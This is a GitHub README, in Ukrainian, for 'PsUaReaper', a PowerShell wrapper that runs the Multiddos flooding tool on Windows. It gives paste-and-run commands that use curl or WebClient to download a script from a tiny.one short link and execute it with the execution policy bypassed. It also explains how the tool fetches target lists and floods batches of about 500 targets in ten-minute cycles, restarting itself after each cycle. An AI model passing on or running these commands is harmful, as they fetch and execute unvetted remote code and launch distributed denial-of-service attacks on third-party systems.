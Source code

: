 # PsUaReaper
PowerShell-враппер для запуску Multiddos на Windows. 
- Не потребує інсталяції додатковий програм, все необхідне розташовується в C:\PsUaReaper
- Не потребує адміністративних прав для запуску
- Сумісніть з Windows 7 SP1
- Автоматичне оновлення цілей

Джерела натхнення:
[KarboDuck](https://github.com/KarboDuck)
[ahovdryk](https://github.com/ahovdryk)

## Перший старт:
1. Найлегший шлях для старих систем (Windows 7, 8, 8.1, 10 до білда 1803):
- Завантажити з офіційного репозиторію останню версію [PowerShell](https://github.com/PowerShell/PowerShell/releases/download/v7.2.4/PowerShell-7.2.4-win-x86.zip)
- Розпакувати архів в будь який каталог і запустити з нього <code>pwsh.exe</code>
- Виконати команду:
```
(new-object System.Net.WebClient).DownloadFile("https://tiny.one/jxr7yadn", "$env:tmp\setup.ps1"); &"$PsHome\pwsh.exe" -executionpolicy bypass -file "$env:tmp\Setup1.ps1";ri "$env:tmp\Setup.ps1"
```
2. Windows 10 білд 1803 і новіше:
- Скопіювати команду
```
cmd.exe /c curl -L https://tiny.one/jxr7yadn -o "%tmp%\setup.ps1" && powershell -executionpolicy bypass -file "%tmp%\setup.ps1" && del "%tmp%\setup.ps1"
```
- Натиснути Win+R
- Вставити команду і натиснути Enter

## Важливі зауваження
(!) Наступні запуски можливі з файлу C:\PsUaReaper\Start.cmd</br>
(!) При старті відбувається пошук цілей зі списку KarboDuck</br>
(!) Скрипт працює тільки з унікальними цілям</br>
(!) Перевіряється оновлення PowerShell i Python скриптів</br>
(!) Список цілей розбивається на групи по 500 (+/-) і навантажується почергово протягом 10 хвилин</br>
(!) По завершенню циклу, скрипт зам себе перезапускає</br>
(!) Для завершення необхідно натиснути Ctrl+C</br>
